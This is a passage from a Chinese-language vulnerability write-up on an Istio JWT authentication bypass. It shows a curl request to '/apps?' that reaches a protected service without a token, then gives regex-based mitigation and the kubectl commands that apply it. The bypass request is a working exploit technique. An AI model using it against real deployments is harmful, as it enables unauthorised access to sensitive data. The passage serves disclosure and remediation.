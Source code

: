 以攻击者视角尝试访问”/apps?”：  
```
 1root@node2:~# curl -v $INGRESS_HOST/apps?
 2* Trying 192.168.19.11...
 3* TCP_NODELAY set
 4* Connected to 192.168.19.11 (192.168.19.11) port 31380 (#0)
 5> GET /apps? HTTP/1.1
 6> Host: 192.168.19.11:31380
 7> User-Agent: curl/7.58.0
 8> Accept: */*
 9>10< HTTP/1.1 200 OK
11< server: istio-envoy12< date: Thu， 07 Mar 2020 04:53:00 GMT13< content-type: application/json14< content-length: 2915< access-control-allow-origin: *16< access-control-allow-credentials: true17< x-envoy-upstream-service-time: 518<19
```  
  
可以成功访问，证明了Istio的未授权访问漏洞确实存在，于是攻击者可以完美绕过JWT认证并且成功利用到程序自身的漏洞，进而访问到每个app的敏感信息，一旦攻击者拥有这些敏感信息例如用户名密码，便可直接对网站上的app进行访问，植入后门，后果不堪设想。  
  
以上只是一个简单的漏洞利用场景，现实攻击中，开发人员还有可能因为疏忽在某访问路径下放置密钥信息，攻击者一旦拿到密钥便可通过ssh登录到其它主机从而展开持续性攻击，所以Istio所爆的漏洞只是为攻击者打开了一扇门，用户自己的应用程序安全性才是最重要的。  
  
五．修复方法  
  
  
- 通过添加正则临时缓解  
  
```
1- jwt:
2    issuer: "testing@secure.istio.io"
3    jwksUri: "https://raw.githubusercontent.com/istio/istio/release-1.4/security/tools/jwt/samples/jwks.json" 
4    trigger_rules:
5    - included_paths:
6      - regex: '/productpage(\?.*)?' #
7      - regex: '/productpage(#.*)?'  #

```  
  
此正则表达式满足 path + query + fragment 完全匹配，我们可以简单实验下可行性：给exact路径添加正则匹配前先将之前的策略删除  
```
 1root@node1:/home/puming/istio/istio-1.4.2/samples/httpbin# kubectl delete policy.authentication.istio.io jwt-example -n foo
 2policy.authentication.istio.io "jwt-example" deleted
 3root@node1:/home/puming/istio/istio-1.4.2/samples/httpbin# cat <<EOF | kubectl apply -n foo -f -
 4> apiVersion: "authentication.istio.io/v1alpha1"
 5> kind: "Policy"
 6> metadata:
 7>   name: "jwt-example"
 8> spec:
 9>   targets:
10>   - name: httpbin
11>   origins:
12>   - jwt:
13>       issuer: "testing@secure.istio.io"
14>       jwksUri: "https://raw.githubusercontent.com/istio/istio/release-1.4/security/tools/jwt/samples/jwks.json"
15>       trigger_rules:
16>       - included_paths:
17>         - regex: '/ip(\?.*)?'
18>         - regex: '/ip(#.*)?'
19>   principalBinding: USE_ORIGIN
20> EOF
21policy.authentication.istio.io/jwt-example created

```  
  